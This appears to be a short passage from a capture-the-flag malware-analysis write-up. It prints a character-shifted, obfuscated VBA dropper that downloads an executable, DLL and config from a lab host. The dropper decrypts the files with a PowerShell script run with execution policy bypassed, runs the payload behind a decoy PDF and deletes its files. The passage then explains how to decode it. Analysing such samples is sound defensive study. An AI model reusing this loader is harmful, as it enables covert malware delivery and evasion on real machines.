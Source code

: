 ```
chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1))
```

First, it substact the characater with `4 (- (5) + (1))`, then `chr()` converts it to ASCII character.

Reverse the process, and we got a VBA script.

![](image4.png)
